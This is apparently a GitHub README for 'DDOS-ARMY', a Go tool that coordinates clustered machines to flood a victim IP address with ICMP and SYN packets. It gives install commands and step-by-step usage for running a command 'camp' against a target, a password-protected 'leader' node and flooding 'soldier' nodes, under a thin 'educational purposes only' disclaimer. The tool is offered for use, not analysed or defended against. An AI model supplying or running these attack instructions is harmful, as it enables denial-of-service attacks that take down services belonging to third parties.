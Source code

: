 # DDOS-ARMY


![](img/ddosarmydemo.gif)


## What is DDOS-ARMY?
ddos-army is a tool that allows
you to launch a DDoS attack on a IP victim address.
with clustered other machine. 

### ⚠️ DISCLAIMER ⚠️:
️ It is intended to be used for educational purposes only.
I am not responsible for any misuse or damage caused by this program.
## Features
* 🏕️ Support clustering attack concept 
* 💣 Support ICMP, SYN flood attack (more to come)
* ⛓️ Support concurrency and parallelism
* Cross-platform (Linux 💀, Windows 🪟, Mac OS X🍏, BSD)
* ⚙️ Easy Army management (stop, start, shutdown, change attack strategy, etc.)
* ✅ Friendly terminal user interface
* 📈 Profiling and benchmarking requests for each soldier (node)

## Installation

### binary (recommended)
```bash
go install github.com/XORbit01/DDOS-ARMY@latest 
```
you can download the binary from 
[Releases](https://github.com/XORbit01/DDOS-ARMY/releases/tag/v0.0.3)


### From source
```bash
git clone https://github.com/XORbit01/DDOS-ARMY 
cd DDOS-ARMY
go build -o ddosarmy 
```

## Usage
```bash
ddosarmy -h
```

## steps
### 1. create army camp
this must be hosted on a server with public ip address, so that the soldiers can connect to it.
```bash
ddosarmy camp -v <victim_ip>
```
### 2. leader access camp
leader is the node that will orchestrate the army and send the attack commands to the soldiers.
```bash
ddosarmy leader -c <camp_ip> -s password
```
the default password is `password`, this password is set when you created the camp
### 3. soldiers access camp
the soldiers are the nodes responsible for sending dummy packets flooding the victim ip address.
it will listen to the leader node and execute the attack commands.
```bashq
ddosarmy soldier -c <camp_ip>  
```


## How it works
as you can see in the image below, the leader node is responsible for sending the attack commands to the soldiers.
the dispatcher (camp) is responsible for sending the attack commands to the soldiers.
he is not responsible for sending the single packets to the victim ip address.

![How it works](img/howitworks.jpg)


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
you can also contact me on discord:`XORbit#5945`

